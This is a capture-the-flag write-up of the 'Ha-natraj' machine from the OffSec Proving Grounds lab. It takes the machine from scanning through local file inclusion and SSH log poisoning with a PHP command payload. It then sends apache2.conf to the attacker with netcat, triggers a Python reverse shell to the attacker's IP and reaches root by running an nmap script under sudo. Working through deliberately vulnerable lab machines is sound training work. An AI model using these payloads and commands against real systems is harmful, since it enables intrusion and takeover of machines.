 ```yaml
---
title: "Proving grounds Play: Ha-natraj"
layout: post
date: 2023-09-30 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp - open  http - Apache httpd 2.4.29 ((Ubuntu))

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/web.png)

## Directory Fuzzing

```text
http://192.168.151.80/console/
http://192.168.151.80/console/file.php
```
![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/dir.png)

## LFI Vulnerability

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/lfi.png)

## LFI to SSH Log Poisoning

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/ssh-log1.png)

**Log Poisoning**

```sh
naveenj@hackerspace:|03:07|~/pg-play/Ha-natraj$ nc -nv 192.168.151.80  22
(UNKNOWN) [192.168.151.80] 22 (ssh) open
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
naveenj/<?php system($_GET['cmd']); ?>
Protocol mismatch.
```

### Log File

```sh
naveenj@hackerspace:|03:08|~/pg-play/Ha-natraj$ curl "http://192.168.151.80/console/file.php?file=../../../../../../../../../../var/log/auth.log&cmd=whoami"
#auth log
Sep 30 00:07:56 ubuntu sshd[24168]: Bad protocol version identification 'naveenj/www-data' from 192.168.45.204 port 53234 #whoami execution
Sep 30 00:08:01 ubuntu CRON[24169]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 30 00:08:01 ubuntu CRON[24169]: pam_unix(cron:session): session closed for user root
```

## Initial Foothold

![img](/assets/images/CTF/Proving_Grounds/Ha-natraj/rce.png)

## Privilege Escalation

Enumerate user executable permissions.

```sh
www-data@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/systemctl start apache2
    (ALL) NOPASSWD: /bin/systemctl stop apache2
    (ALL) NOPASSWD: /bin/systemctl restart apache2
www-data@ubuntu:/var/www/html/console$ 
```

List permissions for `/apache2` folder.

```sh
www-data@ubuntu:/var/www/html/console$ cd /etc/apache2
cd /etc/apache2
www-data@ubuntu:/etc/apache2$ ls -al
ls -al
total 88
drwxr-xr-x  8 root root  4096 Jun  3  2020 .
drwxr-xr-x 79 root root  4096 Sep  2  2020 ..
-rwxrwxrwx  1 root root  7224 Mar 13  2020 apache2.conf
drwxr-xr-x  2 root root  4096 Jun  3  2020 conf-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 conf-enabled
-rw-r--r--  1 root root  1782 Jul 16  2019 envvars
-rw-r--r--  1 root root 31063 Jul 16  2019 magic
drwxr-xr-x  2 root root 12288 Jun  3  2020 mods-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 mods-enabled
-rw-r--r--  1 root root   320 Jul 16  2019 ports.conf
drwxr-xr-x  2 root root  4096 Jun  3  2020 sites-available
drwxr-xr-x  2 root root  4096 Jun  3  2020 sites-enabled
www-data@ubuntu:/etc/apache2$ 
```

Change the user configuration of the `apache2.conf` file from `www-data` to the actual system user so when we restart the service we will obtain shell as actual system user.

Check users in the system.

```sh
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

Transfer the apache config file to local machine to make the changes using netcat.

Send file.

```sh
www-data@ubuntu:/etc/apache2$ nc 192.168.45.204 1233 < apache2.conf #send
nc 192.168.45.204 1233 < apache2.conf
www-data@ubuntu:/etc/apache2$
```
Receive file.

```sh
naveenj@hackerspace:|03:14|~/pg-play/Ha-natraj/files$ nc -lvnp 1233 >apache2.conf   #receive
listening on [any] 1233 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.80] 47786
```

Do the below changes to the config file.

```conf
#old config
# These need to be set in /etc/apache2/envvars
- User ${APACHE_RUN_USER}
- Group ${APACHE_RUN_GROUP}

#new config
# These need to be set in /etc/apache2/envvars
+ User mahakal
+ Group mahakal
```

Now download the changed config file back to the `/etc/apache2/` folder as `apache2.conf` and restart the apache server.

```sh
www-data@ubuntu:/etc/apache2$ sudo /bin/systemctl restart apache2
sudo /bin/systemctl restart apache2
```

Now run the netcat listener and  obtain the shell, since the apache2 serve is running as `mahakal` the shell for the user will be obtained.

**Reverse Shell Trigger**

```text
http://192.168.151.80/console/file.php?file=../../../../../../../../../../var/log/auth.log&cmd=python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("192.168.45.204",1234))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("bash")'
```

**User: mahakal**

```sh
listening on [any] 1234 ...
connect to [192.168.45.204] from (UNKNOWN) [192.168.151.80] 49014
mahakal@ubuntu:/var/www/html/console$ 
```

Enumerate user executable permissions.

```sh
mahakal@ubuntu:/var/www/html/console$ sudo -l
sudo -l
Matching Defaults entries for mahakal on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mahakal may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/nmap  #user can run nmap as root
mahakal@ubuntu:/var/www/html/console$
```

**Exploitation**

Create a nmap `.nse` script to spawn `/bin/bash` as below and execute it.

```sh
mahakal@ubuntu:/tmp$ echo 'os.execute("/bin/bash")' > script.nse

echo 'os.execute("/bin/bash")' > script.nse
mahakal@ubuntu:/tmp$ 
mahakal@ubuntu:/tmp$ sudo /usr/bin/nmap --script=script.nse
sudo /usr/bin/nmap --script=script.nse

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-30 00:22 PDT
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).